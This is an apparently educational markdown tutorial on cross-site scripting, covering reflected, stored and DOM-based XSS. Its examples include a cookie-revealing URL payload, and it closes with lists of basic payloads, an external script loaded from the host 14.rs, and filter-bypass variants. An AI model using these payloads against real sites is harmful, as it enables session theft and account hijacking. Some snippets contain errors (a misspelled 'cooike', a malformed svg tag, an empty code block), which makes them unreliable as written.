




# Cross-site scripting (XSS)
> Cross-site scripting (XSS) is a vulnerability found in web applications. It is a code injection attack where the attacker injects malicious code into web pages which are viewed by other users. It occurs when the user input is not properly filtered.XSS effects differ in a scope from a petty nuisance to momentous security risk, based on the sensitivity of the data handled by the target site and the quality of any security mitigation implemented by the site's admin.

### Impact
The impact of XSS is boundless. A successful XSS may lead to :

- Account hijacking
- Credential-stealing
- Leakage of sensitive data
- Display text that seems to come from the site owners,(Like phishing)
- Log keystrokes
- Redirect to another site
- Gain access to camera/microphone if the victim has granted access to that site.

***Common languages used for XSS***
    
- Javascript
- VBScript
- HTML
- Perl
- C++, ActiveX and Flash

### Types of XSS

1. Reflected XSS
2. Stored XSS
3. DOM-based XSS

#### Reflected XSS
___

This is the most common type of cross-site scripting vulnerability. Here the payload is a part of HTTP request which should give the HTTP response containing the payload embedded in the page. In this type of attack, the attacker has to deliver the payload to the victim.

The attacker uses E-mails and other social engineering methods to get the victim to click on the link which contains the payload within the link. 


***Example***

Let's see a web page which reflects the input given for id parameter into the web page



Here the attacker can successfully implement reflected XSS by changing the id parameter to a malicious script

Let's try to pop-up the cookies of the user by injecting a script

```url
localhost/xss.php?id=<script>alert(document.cooike)</script>
```

This gives us a pop-up containing cookies in the page. 




#### Stored XSS
___

This the most dangerous cross-site scripting attack. The payload injected by the attacker is permanently stored in the web page and whoever visits the page will end up as a victim of this attack.

The most common illustration of this type of XSS is a web page containing commenting functionality. The attacker comments a malicious script which will be stored in the web page, and when another user who visits this page will be affected by this payload.

***Example***

Let's see a web page which displays the status given by users.

Link to the challenge: http://xss-game.appspot.com/level2



Now the attacker can give the status as a payload so that it will be stored in the web application and will affect another user.

Let's try to pop-up the alert with the event handler "onerror"

```

```


On sharing this status the payload will be stored in the application and whoever visits the page gets a pop-up.


#### DOM-based XSS
___

DOM-based XSS doesn't develop in the HTML part rather develop in the DOM (Document Object Model). i.e unlike reflected and stored XSS attacks where you can see the payload reflected in the web application, DOM-based the source code of the web page remains exactly the same. mostly all the HTML documents have a related DOM, containing the objects characterizing the document properties from the perspective of the browser. Whenever a script is executed client-side, the browser equips the code with the DOM of the web page where the script executes, thus, offering admittance to numerous properties of the web page and their values, populated by the browser from its context.

***Example***

Consider the following page http://example.com/xss.html containing the below code:

```HTML
<script>
    document.write("<b>Current URL</b> : " + document.baseURI);
</script>
```

If you send an HTTP request to the web page like this 
```
http://example.com/xss.html#<script>alert(1)</script>
```

straightforward enough that your JavaScript code will get executed, as the web page is writing whatsoever you typed in the URL to the page with document. write function. If you glance at the source of the page, you won't see \<script>alert(1)\</script> because it's all proceeding in the DOM and done by the executed JavaScript code.

### Some payloads

**Basic payloads**
```html
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>

<svgonload=alert(1)>
<body onload=alert(/XSS/.source)>
<textarea autofocus onfocus=alert(1)>
```

**External payload**
```html
<script src=14.rs>
```

**Bypass filters**
```html
<sCrIpT>alert(1)</ScRipt>
<script x>alert('XSS')<script y>
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

---